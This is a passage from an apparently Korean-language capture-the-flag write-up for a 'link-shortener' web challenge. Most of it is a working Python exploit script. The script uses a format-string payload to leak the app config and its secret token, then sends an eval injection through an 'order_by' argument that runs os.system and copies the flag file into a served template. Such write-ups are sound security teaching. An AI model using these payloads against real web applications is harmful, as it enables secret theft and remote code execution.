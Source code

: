     위 코드의 실행 명령어 `cp /*.txt templates/sponsors.html` 는 통해 루트 경로(`/`)에 있는 플래그가 담긴 텍스트 파일(`.txt`)을 엔드포인트 `/sponsors` 의 템플릿 파일인 `templates/sponsors.html` 로 복사하는 명령어 입니다. 즉, RCE가 성공적으로 실행되면 엔드포인트 `/sponsors` 에 접속하여 플래그 값을 확인할 수 있습니다.
    
5. 이후 RCE 페이로드가 담긴 `ukwargs` 가 `relationship` 함수의 인자로 전달되도록 URL `/` 또는 `/register` 를 요청하여 `create_tables` 함수를 호출

결과적으로 위 과정을 수행하는 아래의 스크립트를 실행하면 플래그를 획득할 수 있습니다.

✅ Flag 획득 스크립트

```python
import re
import requests

VUL_FORMAT_STRING = "{self._sa_class_manager._state_constructor._attached.__init__.__globals__[sys].modules[__main__].app.config}"
RCE_EVAL_PAYLOAD = "__import__('os').system('cp /*.txt templates/sponsors.html')"

URL = "https://link-shortener-f439b7ad7c906b78.instancer.b01lersc.tf"

print(f'[*] Create a short link...')
requests.get(f'{URL}/create?url=https://x.com/{VUL_FORMAT_STRING}')
match = re.search(r"'TOKEN': '(\w+)'", requests.get(f'{URL}/all').text)
if match:
    token = match.group(1)
    print(f'[*] TOKEN: {token}')

    print(f'[*] Request /configure with RCE Payload')
    requests.post(f'{URL}/configure', json={
        "token": token,
        "base_url": "",
        "ukwargs": 
            {
                "order_by": RCE_EVAL_PAYLOAD
            }
    })

    print(f'[*] execute for create_tables()')
    requests.get(f'{URL}/register')
    
    print(f'[*] get flag')
    flag = requests.get(f'{URL}/sponsors').text
    print(f'[*] Flag: {flag}')
else:
    print('[*] TOKEN: not found...')
```
